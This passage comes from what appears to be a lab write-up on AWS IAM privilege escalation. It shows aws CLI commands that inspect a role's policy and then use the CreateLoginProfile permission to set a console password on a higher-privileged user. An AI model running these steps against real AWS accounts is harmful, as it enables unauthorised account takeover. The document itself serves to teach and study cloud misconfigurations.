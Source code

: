 
The property `principal` under the `AssumeRolePolicyDocument` has our user listed, meaning we can assume this role. Next, we will check the permissions by getting the policy document of the attached policy to this role:

```bash
aws iam list-attached-role-policies --role-name privesc5-CreateLoginProfile-role

aws iam get-policy-version --policy-arn arn:aws:iam::xxxxxxxxxxxx:policy/privesc5-Creat eLoginProfile --version-id v1
```

![](/assets/img/posts/aws-priv-esc-01/case-05-02-Get-Policy-Document.png)
_Get Policy document_

Based on the output in the above image, we can confirm that this role has `IAM-CreateLoginProfile` permission over **ALL** resources.

### Privilege Escalation
To exploit this misconfigured policy, we can select a user having the following characteristics:
- This user has higher privileges than our current compromised user.
- This user does not have the console login configured already.


> The `get-login-profile` command can be used to verify that an IAM user has a password. The command returns a `NoSuchEntity` error if no password is defined for the user.
{: .prompt-info }

```bash
aws iam create-login-profile --user-name super-user --no-password-reset-required --password 'Passwordone2three!' --profile privesc5
```

> The option `--no-password-reset-required` means that when the user logins for the 1st time, they won't have to reset their password.
{: .prompt-info }

![](/assets/img/posts/aws-priv-esc-01/case-05-03-Create-Login-Profile.png)
_Creating console logon for a higher privileged user_
